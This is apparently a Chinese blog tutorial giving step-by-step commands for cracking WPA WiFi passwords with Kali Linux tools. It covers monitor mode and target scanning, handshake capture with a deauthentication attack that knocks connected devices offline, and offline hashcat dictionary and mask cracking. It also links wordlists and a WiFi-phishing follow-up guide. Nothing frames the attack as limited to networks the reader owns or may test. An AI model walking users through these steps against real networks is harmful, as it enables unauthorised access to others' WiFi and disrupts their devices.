




Kali Linux 使用 Hashcat 高效破解 WiFi 密码【暴力破解篇】

#### 1\. 前言

> [Hashcat](https://github.com/hashcat/hashcat) 是世界上最快、最先进的密码恢复应用程序，支持 300 多种高度优化的哈希算法的五种独特的攻击模式。Hashcat 目前支持 Linux、Windows 和 macOS 上的 CPU、GPU 和其他硬件加速器，并具有帮助实现分布式密码破解的功能。

#### 2\. 准备工作

*   Kali 免驱无线网卡

*   Kali 虚拟机或实体机

> Kali 免驱网卡可以直接在网上购买，注意问清楚商家 Kali 系统是否免驱，是否支持监听和注入功能，能不能使用 airmon-ng 抓包。

Kali Linux下载地址：[https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)

#### 3\. 扫描目标 WiFi

> 首先将无线网卡插到电脑上，如果使用的是虚拟机的话，注意将无线网卡连接到虚拟机。

切换到 root 用户

    sudo -i

开启监听模式

    airmon-ng check
    airmon-ng check kill  // 关闭影响监听状态的进程
    airmon-ng start wlan0 

扫描附近的 WIFI（wlan0 也有可能是 wlan0mon，可以使用 `airmon-ng` 命令查看 Interface 名称）

    airodump-ng wlan0

如果出现 `Device or Resource is Busy` 的错误，并且执行 `airmon-ng` 命令查看 `PHY` 显示为 null，那么可以参考 [这个教程](https://playlab.eu.org/archives/kali-monitor) 更新无线网卡驱动解决

#### 4\. 抓取握手包

修改并执行以下的命令，以扫描到的“Play\_Lab”热点为例：

    airodump-ng -c 1 --bssid 1E:FE:E7:D4:F7:1C -w /home/kali/Desktop/play_lab  wlan0

`-c` WiFi 的 CH

`--bssid` WiFi 的 BSSID

`-w` 握手文件存放路径和名称

当有设备连接到这个 WiFi 的时候我们就可以抓取到握手包了，但是这种“守株待兔”的方式通常是比较浪费时间的，所以我们需要发起“主动攻击”。

> 原理是通过发送大量的握手请求把其他设备踢下线，一般情况下线的设备都会自动重连 WiFi，这个时候就可以抓取到握手包了。

打开一个新的终端窗口，修改并执行以下命令：

    aireplay-ng -0 2 -a 1E:FE:E7:D4:F7:1C -c 36:9E:86:3F:BD:8A wlan0

`-a` WiFi 的 BSSID

`-c` 已连接设备的 MAC 地址

当右上角出现"WPA handshake"握手包就抓取成功了

#### 5.1 字典暴力破解

> 由于 Hashcat 需要使用 GPU 才能高效破解密码，所以需要确保你的 Kali Linux 可以正常驱动显卡，或者直接在 Windows 电脑上下载 [Hashcat](https://github.com/hashcat/hashcat/releases) 执行操作也是可以的。

首先需要通过 [Hashcat](https://hashcat.net/cap2hashcat/index.pl) 网站将 cap 文件转换为 hc22000 格式，然后修改并执行下面的命令：

    hashcat -m 22000 xxx.hc22000 password.txt

`xxx` hc22000 文件名称

`password` 密码字典名称

密码字典可以通过 Google 或者 GitHub 搜索下载，推荐两个 GitHub 的字典：

[https://github.com/conwnet/wpa-dictionary](https://github.com/conwnet/wpa-dictionary)

[https://github.com/IYATT-yx/WiFi-Password-Dictionary](https://github.com/IYATT-yx/WiFi-Password-Dictionary)

> 字典模式的暴力破解成功率和字典的大小有直接关系，但是再大的字典，如果字典中没有这个 WiFi 的密码，那么最终还是无法破解，而且耗费的时间也会更久 XD。

#### 5.2 掩码暴力破解

除了使用字典暴力破解，我们还可以使用掩码暴力破解

例如我们知道 WiFi 密码是 8 位纯数字：

    hashcat -a 3 -m 22000 xxx.hc22000 ?d?d?d?d?d?d?d?d

或者 8-9 位小写字母开头+数字的组合：

    hashcat -a 3 -m 22000 xxx.hc22000 --increment --increment-min 8 --increment-max 9 ?l?d?d?d?d?d?d?d?d

我们还可以使用 `--session` 参数存储会话，程序中断之后可以继续执行

    hashcat -a 3 -m 22000 xxx.hc22000 --session sss --increment --increment-min 8 --increment-max 9 ?h?h?h?h?h?h?h?h?h

恢复会话，从上次的断点继续执行

    hashcat --session sss --restore

`sss` 存储的会话名称

破解完成后程序会自动停止运行，并且显示 WiFi 密码

#### 6\. 掩码字符说明：

`l` ：abcdefghijklmnopqrstuvwxyz \[a-z\]

`u` ：ABCDEFGHIJKLMNOPQRSTUVWXYZ \[A-Z\]

`d` ：0123456789 \[0-9\]

`h` ：0123456789abcdef \[0-9 a-f\]

`H` ：0123456789ABCDEF \[0-9 A-F\]

`s` ：!"#$%&'()\*+,-./:;<=>?@\[\\\]^\_\`{|}~

`a` ：?l?u?d?s

`b` ：0x00 - 0xff

#### 7\. Hashcat 相关参数说明

下面列出了常用参数的说明，全部参数的说明可以使用 `hashcat --help` 命令查看

`-a` 指定要使用的破解模式（0 字典攻击，1 组合攻击，3 掩码攻击）

`-m` 指定要破解的 Hash 类型（默认 MD5）

`-o` 指定成功破解的 Hash 和明文密码的存放位置

`--session` 存储当前会话

`--increment` 启用增量破解模式

`--increment-min` 密码最小长度（配合 --increment 参数使用）

`--increment-max` 密码最大长度（配合 --increment 参数使用）

`--force` 忽略警告信息

`--show` 显示成功破解的 Hash 和明文密码

#### 8\. 总结

通过 Hashcat 理论上可以破解任意组合的密码，拿到握手包后可以随时随地进行离线破解，破解难度也只是时间的问题，同时破解的速度和显卡的性能有很大的关系。

如果电脑的显卡性能不是很好的话，那么推荐使用 Fluxion 进行 WiFi 钓鱼，详细操作请查看：

[Kali Linux 使用 Fluxion 破解 WiFi 密码【WiFi 钓鱼篇】](https://playlab.eu.org/archives/fluxion)

文章作者： Play 实验室

本文链接： [https://playlab.eu.org/archives/hashcat](/archives/hashcat)

版权声明： 本站所有文章除特别声明外，均采用 [CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/) 许可协议。转载请注明来自 [Play 实验室](/)！
